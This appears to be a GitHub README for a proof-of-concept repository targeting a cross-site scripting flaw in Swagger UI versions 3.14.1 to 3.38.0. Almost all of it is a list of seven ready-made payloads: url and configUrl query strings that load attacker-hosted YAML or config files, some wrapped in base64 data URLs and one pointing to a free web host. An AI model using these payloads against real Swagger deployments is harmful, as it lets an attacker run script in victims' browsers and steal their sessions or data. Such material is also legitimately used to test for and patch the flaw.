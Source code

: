 # swagger-ui-xss
Swagger UI version affected: `>=3.14.1` &lt; `3.38.0`

## Payload

1. `?url=https://raw.githubusercontent.com/aydilfahri/swagger-ui-xss/main/xss-domain.yaml`
2. `?url=https://raw.githubusercontent.com/aydilfahri/swagger-ui-xss/main/xss-fetch.yaml`
3. `?configUrl=https://raw.githubusercontent.com/aydilfahri/swagger-ui-xss/main/config.json`
4. `?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2F5ZGlsZmFocmkvc3dhZ2dlci11aS14c3MvbWFpbi94c3MtZmV0Y2gueWFtbCIKfQ==`
5. `/classicapi/doc/?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2F5ZGlsZmFocmkvc3dhZ2dlci11aS14c3MvbWFpbi94c3MtZmV0Y2gueWFtbCIKfQ==`
6. `?configUrl=https://raw.githubusercontent.com/aydilfahri/swagger-ui-xss/main/xss-fetch2.yaml`
7. `?configUrl=https://ablush-dresses.000webhostapp.com/config.json`



Thanks to: https://github.com/VictorNS69/swagger-ui-xss/
